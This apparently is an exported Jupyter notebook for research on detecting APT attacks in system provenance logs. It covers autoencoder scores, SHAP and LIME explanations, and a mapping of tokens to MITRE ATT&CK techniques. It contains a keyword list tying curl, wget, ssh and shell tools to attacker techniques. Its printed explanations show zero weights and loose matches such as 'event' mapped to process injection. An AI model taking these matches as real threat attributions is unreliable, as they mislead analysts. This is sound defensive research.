c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll_llama3_manual
    -> Baseline Done! F1: 0.6107 | PR-AUC: 0.4489
    -> Sparse Done! F1: 0.0174 | PR-AUC: 0.0048
    -> Deep SVDD Done! F1: 0.0036 | PR-AUC: 0.0018
    -> DAE Done! F1: 0.1319 | PR-AUC: 0.0403
    -> VAE Done! F1: 0.0152 | PR-AUC: 0.0046
    -> Beta-VAE Done! F1: 0.0159 | PR-AUC: 0.005
    -> GMVAE Done! F1: 0.013 | PR-AUC: 0.0041
    -> Attention AE Done! F1: 0.0177 | PR-AUC: 0.0053
    -> LSTMAE Done! F1: 0.4455 | PR-AUC: 0.2777
    -> Robust Done! F1: 0.6798 | PR-AUC: 0.5329
    -> Contractive Done! F1: 0.0173 | PR-AUC: 0.0051

Evaluating: THEIA - ProcessEvent_llama3_manual
    -> Baseline Done! F1: 0.6168 | PR-AUC: 0.4971
    -> Sparse Done! F1: 0.0153 | PR-AUC: 0.0021
    -> Deep SVDD Done! F1: 0.0037 | PR-AUC: 0.0018
    -> DAE Done! F1: 0.0169 | PR-AUC: 0.006
    -> VAE Done! F1: 0.0046 | PR-AUC: 0.0015


#### XAI Integration and MITRE ATT&CK mapping

In [5]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel, BitsAndBytesConfig
import transformers.modeling_utils
import transformers.cache_utils as cache_utils
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 0. TRANSFORMERS 5.0+ SURVIVAL HOTFIXES
# ==========================================
# 1. Intercept the illegal 4-bit .to() call
if not hasattr(transformers.modeling_utils.PreTrainedModel, "_patched_to_applied"):
    _orig_to = transformers.modeling_utils.PreTrainedModel.to
    def _patched_to(self, *args, **kwargs):
        try:
            return _orig_to(self, *args, **kwargs)
        except ValueError as e:
            if "is not supported for `4-bit`" in str(e):
                return self 
            raise e
    transformers.modeling_utils.PreTrainedModel.to = _patched_to
    transformers.modeling_utils.PreTrainedModel._patched_to_applied = True

# 2. Patch missing cache methods
if hasattr(cache_utils, "DynamicCache"):
    if not hasattr(cache_utils.DynamicCache, "from_legacy_cache"):
        @classmethod
        def from_legacy_cache(cls, past_key_values=None):
            cache = cls()
            if past_key_values is not None:
                for layer_idx, (key_states, value_states) in enumerate(past_key_values):
                    cache.update(key_states, value_states, layer_idx)
            return cache
        cache_utils.DynamicCache.from_legacy_cache = from_legacy_cache

    if not hasattr(cache_utils.DynamicCache, "get_usable_length"):
        def get_usable_length(self, new_seq_length, layer_idx=0):
            return self.get_seq_length(layer_idx) if hasattr(self, "get_seq_length") else 0
        cache_utils.DynamicCache.get_usable_length = get_usable_length

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [LLM2VEC LLAMA-3 UPDATE] - Corrected Hugging Face Repo Name!
EMBEDDER_NAME = "McGill-NLP/LLM2Vec-Meta-Llama-3-8B-Instruct-mntp" 
INPUT_DIM = 4096  # CRITICAL: Llama-3 8B uses 4096-dimensional vectors

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "whoami": "T1033 - System Owner/User Discovery",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "ssh": "T1021.004 - Remote Services: SSH",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 80": "T1071.001 - Application Layer Protocol: Web Protocols",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell"
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return f"[Error] Local API returned status {response.status_code}"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER 
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} with 4-bit Quantization...")
        
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name, trust_remote_code=True)
        
        # [LLAMA-3 FIX]: Llama-3 has no pad token by default. Assign it to EOS.
        if self.tokenizer.pad_token is None:
            self.tokenizer.pad_token = self.tokenizer.eos_token 

        # [OOM FIX]: Forces the 8B model to ~5GB VRAM footprint
        bnb_config = BitsAndBytesConfig(
            load_in_4bit=True,
            bnb_4bit_compute_dtype=torch.float16,
            bnb_4bit_use_double_quant=True
        )

        self.embedder = AutoModel.from_pretrained(
            embedder_name, 
            trust_remote_code=True,
            quantization_config=bnb_config,
            device_map={"": self.device} 
        )
        
        # [THE SURGICAL CPU-TO-GPU FIX]
        # Hunt down the 'rotary_emb' math components that Hugging Face
        # leaves stranded on the CPU, and force them to the GPU.
        for module in self.embedder.modules():
            if hasattr(module, 'rotary_emb'):
                module.rotary_emb.to(self.device)
            if hasattr(module, 'inv_freq'):
                module.inv_freq = module.inv_freq.to(self.device)
                
        # Catch any other stranded parameters/buffers
        for param in self.embedder.parameters():
            if param.device.type == 'cpu':
                param.data = param.data.to(self.device)
        for buffer in self.embedder.buffers():
            if buffer.device.type == 'cpu':
                buffer.data = buffer.data.to(self.device)
                
        self.embedder.eval()
        
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        # Clean inputs
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        # LLM2Vec uses bidirectional attention (Mean Pooling), no need for EOS trick
        formatted_texts = text_list

        batch_size = 2 
        all_errors = []
        
        ac_device = 'cuda' if 'cuda' in self.device else 'cpu'
        
        for i in range(0, len(formatted_texts), batch_size):
            batch_texts = formatted_texts[i:i+batch_size]
            
            inputs = self.tokenizer(
                batch_texts, 
                padding="max_length", 
                truncation=True, 
                max_length=128, 
                return_tensors="pt"
            ).to(self.device)

            if "token_type_ids" in inputs:
                del inputs["token_type_ids"]

            with torch.amp.autocast(ac_device):
                with torch.inference_mode():
                    outputs = self.embedder(**inputs)
                    
                    # [LLM2VEC POOLING]: Attention-Weighted Mean Pooling
                    token_embeddings = outputs.last_hidden_state
                    attention_mask = inputs['attention_mask'].unsqueeze(-1).float()
                    
                    sum_embeddings = torch.sum(token_embeddings * attention_mask, dim=1)
                    sum_mask = torch.clamp(attention_mask.sum(dim=1), min=1e-9)
                    embeddings = sum_embeddings / sum_mask
                    
                    # Normalize embeddings (Standard practice for LLM2Vec)
                    embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                    
                    # Cast back to fp32 to match the AE weights
                    embeddings = embeddings.to(torch.float32)
                    
                    reconstructed = self.ae_model(embeddings)
                    errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                    all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)
# Ensure this folder name matches your LLM2Vec training output!
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_llama3_manual_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_llm2vec_llama3", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    state_dict = torch.load(weight_path, map_location='cpu')
    ae_model.load_state_dict(state_dict)
    ae_model = ae_model.to(DEVICE)
    print(f"✓ Loaded weights safely: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
            
            print("Calculating LIME perturbations...")
            for text in raw_apt_log:
                lime_exp = lime_explainer.explain_instance(text, lime_predict_wrapper, num_features=5)
                
                print("Top LIME Anomaly Drivers:")
                for word, weight in lime_exp.as_list():
                    clean_word = word.strip().lower()
                    # [THE FIX]: Removed the > 0 filter to reveal all important drivers
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (LIME Weight: {weight:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(text, clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

            # ==========================================
            # 9. RUN SHAP 
            # ==========================================
            print("\nCalculating SHAP values (Optimized speed...)")
            shap_values = shap_explainer(raw_apt_log, max_evals=100)
            
            print("\n" + "="*80)
            print("SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)

            for i, text in enumerate(raw_apt_log):
                words = shap_values.data[i]
                impact_scores = shap_values.values[i]
                
                # [THE FIX]: Sort by absolute impact to catch strongest drivers regardless of sign
                word_impacts = sorted(zip(words, impact_scores), key=lambda x: abs(x[1]), reverse=True)
                
                print("Top SHAP Anomaly Drivers:")
                for word, score in word_impacts[:5]: 
                    clean_word = word.strip().lower()
                    # [THE FIX]: Removed the > 0 filter to reveal all important drivers
                    if len(clean_word) > 1:
                        print(f" -> '{clean_word}' (Anomaly Impact: {score:+.4f})")
                        mapped = False
                        if USE_LLM_MAPPING:
                            mitre_technique = get_mitre_from_llm(raw_apt_log[0], clean_word)
                            if "[Error]" not in mitre_technique:
                                print(f"    [!] LLaMA-3 MITRE MAPPING: {mitre_technique}")
                                mapped = True

                        if not mapped:
                            for key, mitre_technique in MITRE_MAPPING.items():
                                if key in clean_word or clean_word in key:
                                    print(f"    [!] STATIC MAPPING: {mitre_technique}")
                                    mapped = True
                        if not mapped:
                            print("    [i] No MITRE mapping found.")

    except NameError:
        print("[!] The 'all_data' variable is not loaded.")

Loading all_data_with_sentences.pkl...
✓ Data loaded successfully!
------------------------------------------------------------
INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)
------------------------------------------------------------
✓ Loaded weights safely: saved_weights_llm2vec_llama3\theia_ProcessAll_llama3_manual_Baseline.pth
Loading McGill-NLP/LLM2Vec-Meta-Llama-3-8B-Instruct-mntp with 4-bit Quantization...


Special tokens have been added in the vocabulary, make sure the associated word embeddings are fine-tuned or trained.
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download` is deprecated and will be removed in version 1.0.0. Downloads always resume when possible. If you want to force a new download, use `force_download=True`.
  warnings.warn(
'(ReadTimeoutError("HTTPSConnectionPool(host='huggingface.co', port=443): Read timed out. (read timeout=10)"), '(Request ID: c57d8fb3-6b69-40d6-8ebd-744371bb127a)')' thrown while requesting HEAD https://huggingface.co/meta-llama/Meta-Llama-3-8B-Instruct/resolve/main/model.safetensors.index.json
Retrying in 1s [Retry 1/5].
Loading checkpoint shards: 100%|██████████| 4/4 [00:11<00:00,  2.80s/it]
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\huggingface_hub\file_download.py:949: FutureWarning: `resume_download`


Analyzing True Positive Anomaly:
>>> 'Process has event clone and event mmap and event mprotect and event open and event read and event recvfrom and executable /home/admin/profile and executable /home/admin/clean.1 and executable N/A.1 and network 161.116.88.72 and network 80'

LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Calculating LIME perturbations...
Top LIME Anomaly Drivers:
 -> 'executable' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter / Execution
 -> 'process' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.
 -> 'and' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.
 -> 'event' (LIME Weight: -0.0000)
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter
    [!] STATIC MAPPING: T1055 - Process Injection / Execution
    [!] STATIC MAPPING: T1055 - Process Injection
 -> 'home' (LIME Weight: -0.0000)
    [i] No MITRE mapping found.

Calculating SHAP value

PartitionExplainer explainer: 2it [00:11, 11.37s/it]               



SHAP EXPLAINABILITY & LLaMA 3 MITRE MAPPING
Top SHAP Anomaly Drivers:
 -> 'process' (Anomaly Impact: -0.0000)
    [i] No MITRE mapping found.
 -> 'executable' (Anomaly Impact: -0.0000)
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter / Execution
 -> 'executable' (Anomaly Impact: -0.0000)
    [!] STATIC MAPPING: T1059 - Command and Scripting Interpreter / Execution
 -> '/a' (Anomaly Impact: -0.0000)
    [i] No MITRE mapping found.


## Group C: The Large-scale models

### 1. `openai/text-embedding-3-large`

#### Embedding generation

In [ ]:
pip install openai

In [ ]:
import pandas as pd
import numpy as np
import pickle
import os
import time
# [CRITICAL] Install this library first: 
# pip install openai
from openai import OpenAI

# ==========================================
# 1. CONFIGURATION
# ==========================================
INPUT_FILE = 'all_data_with_sentences.pkl'
MODEL_NAME = 'text-embedding-3-large'

# [CRITICAL] PASTE YOUR KEY HERE
# Or set it as an environment variable: os.getenv("OPENAI_API_KEY")
API_KEY = "sk-..." 

# OpenAI API Batch Size
# We send 100 sentences per request. Max allowed is usually 2048, 
# but 100 is safer to avoid network timeouts.
BATCH_SIZE = 100

# ==========================================
# 2. LOAD RESOURCES
# ==========================================
print(f"Initializing OpenAI Client for {MODEL_NAME}...")

if not API_KEY or API_KEY == "sk-...":
    raise ValueError("Please provide a valid OPENAI_API_KEY in the configuration section.")

client = OpenAI(api_key=API_KEY)

if os.path.exists(INPUT_FILE):
    print(f"Loading data from {INPUT_FILE}...")
    with open(INPUT_FILE, 'rb') as f:
        all_data = pickle.load(f)
else:
    raise FileNotFoundError(f"Missing {INPUT_FILE}. Run the sentence generation step first.")

# ==========================================
# 3. HELPER: API WRAPPER
# ==========================================
def get_openai_embeddings(text_list, client, model_name, batch_size=100):
    all_embeddings = []
    total = len(text_list)
    
    for i in range(0, total, batch_size):
        # Prepare batch
        batch_texts = text_list[i : i + batch_size]
        
        # [Optimization] OpenAI suggests replacing newlines with spaces for best results
        batch_texts = [text.replace("\n", " ") for text in batch_texts]
        
        try:
            # API Call
            response = client.embeddings.create(
                input=batch_texts,
                model=model_name
            )
            
            # Extract embeddings (guaranteed to be in order)
            batch_embs = [data.embedding for data in response.data]
            all_embeddings.extend(batch_embs)
            
            print(f"    Processed {min(i + batch_size, total)}/{total}...", end="\r")
            
        except Exception as e:
            print(f"\n    [!] API Error at index {i}: {e}")
            # Optional: Add sleep/retry logic here if hitting rate limits
            time.sleep(5) 
            # For this script, we raise to stop and debug, 
            # preventing partial expensive runs.
            raise e
            
    print("") 
    return all_embeddings

# ==========================================
# 4. GENERATE EMBEDDINGS
# ==========================================
print("\n" + "="*80)
print(f"GENERATING EMBEDDINGS ({MODEL_NAME})")
print("="*80)

for performer in all_data:
    print(f"\n--- Processing Performer: {performer.upper()} ---")
    
    for context in all_data[performer]:
        df = all_data[performer][context]
        
        if 'sentence' not in df.columns:
            print(f"  [!] Skipping {context} (No sentences found)")
            continue
            
        print(f"  -> {context} ({len(df)} rows)...")
        
        try:
            sentences = df['sentence'].tolist()
            
            # Generate
            embeddings = get_openai_embeddings(sentences, client, MODEL_NAME, BATCH_SIZE)
            
            if len(embeddings) != len(df):
                print(f"  [!] Mismatch: {len(embeddings)} vs {len(df)}")
                continue

            df['embedding'] = list(embeddings)
            all_data[performer][context] = df
            print(f"     ✓ Done.")
            
        except Exception as e:
            print(f"\n  [!] Error processing {context}: {e}")
            break # Stop processing on API error to save cost/debug

# ==========================================
# 5. SAVE DATA (CHUNKED)
# ==========================================
SAVE_DIR = "processed_embeddings_openai_3_large"
os.makedirs(SAVE_DIR, exist_ok=True)

print(f"\nAttempting to save OpenAI chunks to: {os.path.abspath(SAVE_DIR)}")

if 'all_data' in locals() and all_data:
    for performer in all_data:
        for context in all_data[performer]:
            try:
                df = all_data[performer][context]
                filename = f"{performer}_{context}_openai_3_large.pkl"
                filepath = os.path.join(SAVE_DIR, filename)
                
                print(f"Saving {filename}...", end=" ")
                with open(filepath, 'wb') as f:
                    pickle.dump(df, f)
                print("Success.")
                
            except Exception as e:
                print(f"Failed to save {filename}: {e}")
    
    print(f"\n✓ All OpenAI data saved to '{SAVE_DIR}'")
    
else:
    print("CRITICAL: The 'all_data' variable is gone from memory.")

### 2. `sentence-transformers/gtr-t5-large`

#### Embedding generation

In [1]:
import pandas as pd
import numpy as np
import torch
import torch.nn.functional as F
import pickle
import os
# [CRITICAL] Import T5EncoderModel specifically to save memory
from transformers import AutoTokenizer, T5EncoderModel

# ==========================================
# 1. CONFIGURATION
# ==========================================
INPUT_FILE = 'all_data_with_sentences.pkl'
MODEL_NAME = 'sentence-transformers/gtr-t5-large'

# GTR-Large is ~335M parameters (Encoder only).
# It is very light compared to LLMs.
BATCH_SIZE = 64

# ==========================================
# 2. LOAD RESOURCES
# ==========================================
device = 'cuda' if torch.cuda.is_available() else 'cpu'
print(f"Using device: {device.upper()}")

print(f"Loading model: {MODEL_NAME}...")

# Load Tokenizer
tokenizer = AutoTokenizer.from_pretrained(MODEL_NAME)

# [CRITICAL] Load ONLY the Encoder part of T5.
# If you use AutoModel, it might load the Decoder too, wasting VRAM.
model = T5EncoderModel.from_pretrained(
    MODEL_NAME, 
    torch_dtype=torch.float16,
    device_map=device
)
model.eval()

if os.path.exists(INPUT_FILE):
    print(f"Loading data from {INPUT_FILE}...")
    with open(INPUT_FILE, 'rb') as f:
        all_data = pickle.load(f)
else:
    raise FileNotFoundError(f"Missing {INPUT_FILE}. Run the sentence generation step first.")

# ==========================================
# 3. HELPER: MEAN POOLING
# ==========================================
def mean_pooling(token_embeddings, attention_mask):
    """
    Standard Mean Pooling.
    Averages the token embeddings, ignoring padding tokens.
    """
    input_mask_expanded = attention_mask.unsqueeze(-1).expand(token_embeddings.size()).float()
    return torch.sum(token_embeddings * input_mask_expanded, 1) / torch.clamp(input_mask_expanded.sum(1), min=1e-9)

def get_gtr_embeddings(text_list, model, tokenizer, batch_size=32):
    all_embeddings = []
    total = len(text_list)
    
    for i in range(0, total, batch_size):
        batch_texts = text_list[i : i + batch_size]
        
        # Tokenize
        # T5 standard max length is 512.
        batch_dict = tokenizer(
            batch_texts, 
            max_length=512, 
            padding=True, 
            truncation=True, 
            return_tensors='pt'
        )
        
        # Move inputs to GPU
        batch_dict = {k: v.to(device) for k, v in batch_dict.items()}
        
        with torch.no_grad():
            # T5EncoderModel outputs directly
            outputs = model(**batch_dict)
            
            # [CRITICAL] Mean Pooling for GTR
            embeddings = mean_pooling(outputs.last_hidden_state, batch_dict['attention_mask'])
            
            # Normalize (Critical for Cosine Similarity)
            embeddings = F.normalize(embeddings, p=2, dim=1)
            
            all_embeddings.extend(embeddings.cpu().numpy())
            
        print(f"    Processed {min(i + batch_size, total)}/{total}...", end="\r")
            
    print("") 
    return all_embeddings

# ==========================================
# 4. GENERATE EMBEDDINGS
# ==========================================
print("\n" + "="*80)
print(f"GENERATING EMBEDDINGS ({MODEL_NAME})")
print("="*80)

for performer in all_data:
    print(f"\n--- Processing Performer: {performer.upper()} ---")
    
    for context in all_data[performer]:
        df = all_data[performer][context]
        
        if 'sentence' not in df.columns:
            print(f"  [!] Skipping {context} (No sentences found)")
            continue
            
        print(f"  -> {context} ({len(df)} rows)...")
        
        try:
            sentences = df['sentence'].tolist()
            
            # Generate
            embeddings = get_gtr_embeddings(sentences, model, tokenizer, BATCH_SIZE)
            
            if len(embeddings) != len(df):
                print(f"  [!] Mismatch: {len(embeddings)} vs {len(df)}")
                continue

            df['embedding'] = list(embeddings)
            all_data[performer][context] = df
            print(f"     ✓ Done.")
            
        except Exception as e:
            print(f"\n  [!] Error processing {context}: {e}")
            torch.cuda.empty_cache()

# ==========================================
# 5. SAVE DATA (CHUNKED)
# ==========================================
SAVE_DIR = "processed_embeddings_gtr_t5_large"
os.makedirs(SAVE_DIR, exist_ok=True)

print(f"\nAttempting to save GTR-T5 chunks to: {os.path.abspath(SAVE_DIR)}")

if 'all_data' in locals() and all_data:
    for performer in all_data:
        for context in all_data[performer]:
            try:
                df = all_data[performer][context]
                filename = f"{performer}_{context}_gtr_t5_large.pkl"
                filepath = os.path.join(SAVE_DIR, filename)
                
                print(f"Saving {filename}...", end=" ")
                with open(filepath, 'wb') as f:
                    pickle.dump(df, f)
                print("Success.")
                
            except Exception as e:
                print(f"Failed to save {filename}: {e}")
    
    print(f"\n✓ All GTR-T5 data saved to '{SAVE_DIR}'")
    
else:
    print("CRITICAL: The 'all_data' variable is gone from memory.")

c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\tqdm\auto.py:21: TqdmWarning: IProgress not found. Please update jupyter and ipywidgets. See https://ipywidgets.readthedocs.io/en/stable/user_install.html
  from .autonotebook import tqdm as notebook_tqdm
c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\keras\src\export\tf2onnx_lib.py:8: FutureWarning: In the future `np.object` will be defined as the corresponding NumPy scalar.
  if not hasattr(np, "object"):


Using device: CUDA
Loading model: sentence-transformers/gtr-t5-large...


c:\Users\Waleed\AppData\Local\Programs\Python\Python312\Lib\site-packages\huggingface_hub\file_download.py:143: UserWarning: `huggingface_hub` cache-system uses symlinks by default to efficiently store duplicated files but your machine does not support them in C:\Users\Waleed\.cache\huggingface\hub\models--sentence-transformers--gtr-t5-large. Caching files will still work but in a degraded version that might require more space on your disk. This warning can be disabled by setting the `HF_HUB_DISABLE_SYMLINKS_WARNING` environment variable. For more details, see https://huggingface.co/docs/huggingface_hub/how-to-cache#limitations.
To support symlinks on Windows, you either need to activate Developer Mode or to run Python as an administrator. In order to activate developer mode, see this article: https://docs.microsoft.com/en-us/windows/apps/get-started/enable-your-device-for-development
  warnings.warn(message)
`torch_dtype` is deprecated! Use `dtype` instead!


Loading data from all_data_with_sentences.pkl...

GENERATING EMBEDDINGS (sentence-transformers/gtr-t5-large)

--- Processing Performer: 5DIR ---
  -> ProcessEvent (11151 rows)...
    Processed 11151/11151...
     ✓ Done.
  -> ProcessExec (11077 rows)...
    Processed 11077/11077...
     ✓ Done.
  -> ProcessParent (10992 rows)...
    Processed 10992/10992...
     ✓ Done.
  -> ProcessNetflow (329 rows)...
    Processed 329/329...
     ✓ Done.
  -> ProcessAll (11151 rows)...
    Processed 11151/11151...
     ✓ Done.

--- Processing Performer: CADETS ---
  -> ProcessEvent (224624 rows)...
    Processed 224624/224624...
     ✓ Done.
  -> ProcessExec (224146 rows)...
    Processed 224146/224146...
     ✓ Done.
  -> ProcessParent (223780 rows)...
    Processed 223780/223780...
     ✓ Done.
  -> ProcessNetflow (42888 rows)...
    Processed 42888/42888...
     ✓ Done.
  -> ProcessAll (224624 rows)...
    Processed 224624/224624...
     ✓ Done.

--- Processing Performer: CLEARSCOPE ---
  -> Proc

#### Train test Split

In [8]:
import os
import pickle
import numpy as np

# ==========================================
# 1. CONFIGURATION
# ==========================================
# The folder where your GTR-T5-Large generated embeddings are stored
SOURCE_FOLDER = "processed_embeddings_gtr_t5_large" 
# The folder where you want the final train/test splits saved
BASE_DIR = "final_train_test_split_gtr_t5_large"     
RANDOM_SEED = 42

def process_and_save(filepath):
    filename = os.path.basename(filepath)
    print(f"\nProcessing: {filename}...")
    
    # --- 1. Load the Pickle File ---
    with open(filepath, 'rb') as f:
        df = pickle.load(f)
    
    # --- 2. Extract Embeddings (X) and Labels (y) ---
    X = np.vstack(df['embedding'].values)
    y = df['label'].values
    
    # --- 3. Separate Benign (0) and Anomalous (1) ---
    benign_mask = (y == 0)
    anom_mask = (y == 1)
    
    X_benign = X[benign_mask]
    X_anom = X[anom_mask]
    
    print(f"  -> Raw Counts: {len(X_benign)} Benign, {len(X_anom)} Anomalous")
    
    # --- 4. Shuffle Benign Data ---
    np.random.seed(RANDOM_SEED)
    np.random.shuffle(X_benign)
    
    # --- 5. Perform the 80/20 Split ---
    split_point = int(len(X_benign) * 0.8)
    
    # TRAIN SET: First 80% of Benign samples ONLY
    X_train = X_benign[:split_point]
    y_train = np.zeros(len(X_train))
    
    # TEST SET: Remaining 20% Benign + ALL Anomalous samples
    X_test_benign = X_benign[split_point:]
    X_test = np.concatenate([X_test_benign, X_anom])
    y_test = np.concatenate([np.zeros(len(X_test_benign)), np.ones(len(X_anom))])
    
    print(f"  -> Split Complete. Train: {X_train.shape}, Test: {X_test.shape}")
    
    # --- 6. Organize and Save ---
    # Clean up the key name by removing GTR-T5-Large suffixes
    key_name = filename.replace(".pkl", "").replace("_gtr_t5_large", "") 
    
    # Try to split by underscore to get performer and context
    parts = key_name.split('_', 1) 
    if len(parts) == 2:
        performer = parts[0]
        context = parts[1]
    else:
        # Fallback if the filename doesn't have an underscore
        performer = "unknown_performer"
        context = key_name

    train_dir = os.path.join(BASE_DIR, performer, "train")
    test_dir = os.path.join(BASE_DIR, performer, "test")
    
    os.makedirs(train_dir, exist_ok=True)
    os.makedirs(test_dir, exist_ok=True)
    
    # Save TRAIN
    train_file = os.path.join(train_dir, f"{context}.pkl")
    with open(train_file, 'wb') as f:
        pickle.dump({'X': X_train, 'y': y_train}, f)
        
    # Save TEST
